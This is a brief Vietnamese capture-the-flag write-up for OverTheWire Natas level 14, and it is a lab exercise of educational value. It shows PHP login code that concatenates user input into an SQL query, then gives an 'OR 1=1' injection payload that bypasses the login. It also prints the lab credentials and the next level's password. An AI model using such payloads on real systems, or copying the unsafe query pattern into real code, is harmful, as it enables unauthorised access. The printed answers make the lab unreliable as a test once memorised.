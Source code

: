 # Natas Level 14

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas14.natas.labs.overthewire.org**     
**Credential: natas14:*z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    
![alt text](Image/Natas14-1.png)

2. Source code:
```bash
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
```

-Từ src ta có thể phân tích trang web này có thể dính SQL injection:
```bash
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

-Dùng payload sau: ```username="OR 1=1-- a&password=everything``` 

![alt text](Image/Natas14-2.png)


## 📌 Key: ```SdqIqBsFcz3yotlNYErZSZwblkm0lrvx```